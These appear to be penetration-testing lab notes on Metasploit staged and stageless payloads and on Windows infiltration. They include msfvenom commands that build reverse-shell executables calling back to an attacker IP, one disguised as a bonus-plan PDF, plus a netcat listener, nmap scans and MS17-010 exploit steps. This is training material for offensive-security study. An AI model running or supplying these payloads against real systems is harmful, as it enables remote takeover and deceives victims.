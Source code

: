 ```shell
msfvenom -l payloads
```
## Staged
- `Staged` payloads create a way for us to send over more components of our attack. 
- We can think of it like we are "setting the stage" for something even more useful. 
- Take for example this payload `linux/x86/shell/reverse_tcp`. When run using an exploit module in Metasploit, this payload will send a small `stage` that will be executed on the target and then call back to the `attack box` to download the remainder of the payload over the network, then executes the shellcode to establish a reverse shell.
## Stageless
- `Stageless` payloads do not have a stage. Take for example this payload `linux/zarch/meterpreter_reverse_tcp`. 
- Using an exploit module in Metasploit, this payload will be sent in its entirety across a network connection without a stage. 
- This could benefit us in environments where we do not have access to much bandwidth and latency can interfere. 
- Staged payloads could lead to unstable shell sessions in these environments, so it would be best to select a stageless payload.
## Stageless Payload
```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
## Executing a Stageless Payload
```shell
sudo nc -lvnp 443
```
## Stageless Payload (Windows)
```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```
# Infiltrating Windows
### Enumerating Windows & Fingerprinting Methods
```shell
ping 192.168.86.39 
```

```shell
sudo nmap -sC -sV -Pn -O 10.129.201.97 --script banner.nse
```

```shell
nmap -v -A 10.129.201.97
```
### Determine an Exploit Path
```
msfconsole -q
```
#### Scan
```
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.129.201.97
run
```
#### Exploit
```
use windows/smb/ms17_010_psexec
options
```